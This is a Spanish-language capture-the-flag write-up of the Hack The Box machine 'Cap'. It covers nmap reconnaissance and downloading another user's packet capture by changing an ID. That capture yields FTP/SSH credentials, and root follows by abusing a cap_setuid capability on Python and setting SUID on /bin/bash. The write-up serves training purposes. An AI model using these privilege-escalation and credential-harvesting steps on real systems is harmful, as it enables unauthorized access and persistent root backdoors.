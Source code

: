 ![imagen](https://user-images.githubusercontent.com/71317374/135714589-65382ded-013c-4b8a-962a-809113a2c459.png)

Cap es una máquina Linux de nivel fácil creada por [InfoSecJack](https://app.hackthebox.eu/users/52045). En ella hay que analizar unos paquetes con Wireshark y hacer uso de las [capabilities](https://www.incibe-cert.es/blog/linux-capabilities) para convertirnos en el grandioso root

Según la gente de Jak De Boxz, la máquina sería así:

![imagen](https://user-images.githubusercontent.com/71317374/135714734-01dba700-004e-4fb0-9e3b-151205a0b643.png)

Lo gracioso es que no hay que explotar ningún CVE.

1. [Reconocimiento inicial](#recon)
2. [Página web](#web)
3. [Analizando el .pcap con Wireshark](#pcap)
4. [Conseguimos root :D](#root)
# Reconocimiento inicial {#recon}

Como siempre, empezamos usando `nmap` para ver los puertos abiertos y conseguir posibles lugares por los que entrar.
```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:52:07 2021 as: nmap -p- --open -sS --min-rate 4000 -n -vv -oN scan 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up, received echo-reply ttl 63 (0.40s latency).
Scanned at 2021-10-02 13:52:07 CEST for 26s
Not shown: 41525 closed tcp ports (reset), 24007 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct  2 13:52:33 2021 -- 1 IP address (1 host up) scanned in 26.59 seconds
```

Hmm, puerto 21 abierto, podríamos intentar entrar como el usuario `anonymous`. De momento vamos a hacer un escaneo en profundidad...

```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:54:06 2021 as: nmap -sCV -p21,22,80 -oN targeted 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:22 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<fingerprint muy larga>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  2 13:56:17 2021 -- 1 IP address (1 host up) scanned in 131.53 seconds
```
| Puerto       | Servicio                              |
|:-------      |:-----------------------------------   |
| 21           | FTP   |
| 22           | SSH, para obtener una shell segura    |
| 80           | [Gunicorn](https://gunicorn.org/)   |                      |
 
 
# Página web {#web}
Entrar al FTP con las credenciales `anonymous: ` no funcionó, así que nos centraremos en la página web. Lo primero que nos encontramos al entrar es esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715330-d77dc314-8f5b-49dc-9f95-ac130ca1adbb.png)

La Security Snapshot parece interesante, pinchamos y tenemos esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715405-426ad6b1-c238-4d55-be90-2aaeecc76ee1.png)

Si le diéramos a Download, nos descargaría un archivo .pcap. También usa un número para identificar al archivo, así que tiene que haber un archivo 0, 1, etc.
Si probamos con el 0:

![imagen](https://user-images.githubusercontent.com/71317374/135715477-10ce33cb-c48e-46d0-98c0-2417e2c02f31.png)

Existe, así que lo descargamos y nos abrimos wireshark para ver si tuviera algo interesante, como unas credenciales.

# Analizando el .pcap con Wireshark {#pcap}

![imagen](https://user-images.githubusercontent.com/71317374/135715540-533be66c-d680-48b8-8eea-7ad67ea4130a.png)

Solamente al abrirlo hay algo interesante, un login en el FTP y unas credenciales :O, que serían `nathan:Buck3tH4TF0RM3!`, y tenemos un FTP y además un SSH abierto, igual las credenciales son válidas para ambos.
Si probamos a usarlas contra el SSH son válidas, así que estaríamos ya dentro y puedes recoger la user flag y llevártela a HTB para meterla por donde le quepa.

# Conseguimos root :D {#root}

Tras estar un rato enumerando, no saqué nada :/, hasta que encontré lo que eran las capabilities, una alternativa al SUID y al `sudo`: https://www.incibe-cert.es/blog/linux-capabilities(está también por arriba)
Para encontrar las capabilities de los archivos, hay que ejecutar el comando `getcap -r / 2>/dev/null`. la parte de 2>/dev/null es únicamente para enviar todos los errores al [/dev/null](https://linuxhint.com/what_is_dev_null/)

![imagen](https://user-images.githubusercontent.com/71317374/135716260-231d9332-d445-4156-ac37-562547482079.png)

Python con capability para cambiarte de usuario a voluntad, qué bien configurado...

```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('whoami')
root
0
```

Y así te convertirías en root, para salir de python y usar una bash como root podrías ejecutar lo siguiente: `os.system("chmod 4755 /bin/bash")` para asignarle el privilegio SUID(SetUID) a la /bin/bash.
Entonces, si ahora ejecutas `bash -p` te conviertes en root y puedes recoger tu premio en la meta, /root.

Ha sido una máquina divertida, que explota algo que no se suele mirar, las capabilities, que no sabía qué eran xD.

Si te ha gustado dame una estrellita, un follow o algo en mi [github](github.com/binlaab), que no te cuesta nada, dale.
